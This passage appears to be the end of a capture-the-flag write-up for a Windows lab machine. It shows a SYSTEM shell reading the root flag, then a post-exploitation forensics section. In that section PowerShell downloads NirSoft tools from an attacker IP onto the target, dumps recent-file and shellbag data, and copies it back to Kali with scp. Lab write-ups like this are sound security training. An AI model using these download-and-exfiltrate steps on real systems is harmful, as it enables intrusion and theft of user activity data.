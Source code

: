 ```bash
nt authority\system
PS C:\Windows\system32> cat C:\Users\Administrator\Desktop\root.txt
f690dada041c9f7a791ce978b5131675
PS C:\Windows\system32>
```

# Additional
---

## Windows Forensics - User Recent Files and Shellbags

Forensics can be extremely useful during penetration testing, some UNC path, File / Folder Path, activities that could be interesting will be revealed

I will use **shellbagsview** (Dump MRU) and **recentfilesview** (Dump recent files/folders from registry and user recent folder) from **nirsoft**, these are the few tools that doesn't require administrative rights to view user activities

```bash
(new-object System.Net.WebClient).DownloadFile('http://10.10.14.83/shellbagsview.exe', '\programdata\shellbagsview.exe')
(new-object System.Net.WebClient).DownloadFile('http://10.10.14.83/recentfilesview.exe', '\programdata\recentfilesview.exe')
```

```bash
\programdata\RecentFilesView.exe /stab "C:\windows\temp\recent.txt" /sort "Execute Time"
\programdata\ShellBagsView.exe /stab "C:\windows\temp\shellbags.txt" /sort "Slot Modified Time"
```

Download the results to kali

```bash
scp -J 127.0.0.1:443 crafty.svc_minecraft.crafty:'\\windows\\temp\\recent.txt' ./recent.txt
scp -J 127.0.0.1:443 crafty.svc_minecraft.crafty:'\\windows\\temp\\shellbags.txt' ./shellbags.txt
```

The results have UTF-16 encodings, which is common for windows, convert them to utf-8

```bash
┌──(bravosec㉿fsociety)-[/tmp]
└─$ file recent.txt
recent.txt: Unicode text, UTF-16, little-endian text, with CRLF line terminators
```

```bash
iconv -f utf-16 -t utf-8 recent.txt -c -o recent.txt
iconv -f utf-16 -t utf-8 shellbags.txt -c -o shellbags.txt
```

From the result, I know `server.properties`, `ops.json`, and `plugins`, `logs` folder are interesting to investigate

```bash
┌──(bravosec㉿fsociety)-[/tmp]
└─$ cat recent.txt | awk -F '\t' '{print $4"|"$1}' | column -s '|' -t
10/24/2023 11:39:11 AM  C:\Users
10/24/2023 11:39:11 AM  C:\Users\svc_minecraft
11/14/2023 3:25:31 AM   C:\Users\svc_minecraft\server\server.properties
11/14/2023 10:31:13 PM  C:\Users\svc_minecraft\server\ops.json
11/14/2023 10:31:13 PM  C:\Users\svc_minecraft\server

┌──(bravosec㉿fsociety)-[/tmp]
└─$ cat shellbags.txt | awk -F '\t' '{print $10$11"|"$1}' | column -s '|' -t
10/24/2023 11:39:03 AM  C:\
10/24/2023 11:39:04 AM  C:\Users
10/24/2023 11:39:08 AM  C:\Users\svc_minecraft\New folder
10/24/2023 11:39:13 AM  C:\Users\svc_minecraft
```